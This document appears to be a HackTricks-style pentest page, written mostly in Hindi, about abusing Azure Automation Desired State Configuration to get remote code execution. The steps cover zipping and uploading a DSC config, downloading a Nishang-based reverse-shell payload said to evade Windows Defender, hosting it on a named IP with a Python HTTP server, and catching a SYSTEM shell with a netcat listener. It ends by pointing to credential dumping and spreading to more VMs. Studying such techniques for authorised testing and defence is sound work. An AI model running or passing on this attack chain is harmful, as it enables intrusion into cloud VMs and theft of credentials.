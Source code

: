 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

यह प्रक्रिया एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करने के लिए एक रिमोट सर्वर इन्फ्रास्ट्रक्चर सेट करने में शामिल है, जिसे `RevPS.ps1` कहा जाता है, जिसे Windows Defender को बायपास करने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक साधारण Python HTTP सर्वर के माध्यम से परोसा जाता है। यह ऑपरेशन कई चरणों के माध्यम से निष्पादित किया जाता है:

#### Step 1 — Create Files

- **Files Required:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक Desired State Configuration (DSC) फ़ाइल जो पेलोड को लाने और निष्पादित करने के लिए है। इसे [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) से प्राप्त किया जा सकता है।
2. `push_reverse_shell_config.ps1`: एक स्क्रिप्ट जो कॉन्फ़िगरेशन को VM पर प्रकाशित करने के लिए है, जो [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) पर उपलब्ध है।
- **Customization:** इन फ़ाइलों में वेरिएबल और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, जिसमें संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता शामिल हैं।

#### Step 2 — Zip Configuration File

- `reverse_shell_config.ps1` को एक `.zip` फ़ाइल में संकुचित किया जाता है, जिससे इसे Azure Storage Account में स्थानांतरित करने के लिए तैयार किया जा सके।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — सेट स्टोरेज कॉन्टेक्स्ट और अपलोड करें

- ज़िप किया गया कॉन्फ़िगरेशन फ़ाइल को पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest, में Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

- Kali सर्वर GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- स्क्रिप्ट को लक्षित Windows VM और रिवर्स शेल के लिए पोर्ट निर्दिष्ट करने के लिए संपादित किया गया है।

#### Step 5 — Publish Configuration File

- कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिसके परिणामस्वरूप रिवर्स-शेल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर तैनात किया जाता है।

#### Step 6 — Host Payload and Setup Listener

- पायथन SimpleHTTPServer को पेलोड को होस्ट करने के लिए शुरू किया जाता है, साथ ही एक Netcat लिस्नर को आने वाले कनेक्शनों को कैप्चर करने के लिए।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- निर्धारित कार्य पेलोड को निष्पादित करता है, SYSTEM-स्तरीय विशेषाधिकार प्राप्त करता है।

#### निष्कर्ष

इस प्रक्रिया का सफल निष्पादन आगे की क्रियाओं के लिए कई संभावनाएँ खोलता है, जैसे कि क्रेडेंशियल डंपिंग या हमले को कई VMs तक बढ़ाना। गाइड Azure Automation DSC के क्षेत्र में निरंतर सीखने और रचनात्मकता को प्रोत्साहित करता है।

{{#include ../../../../banners/hacktricks-training.md}}
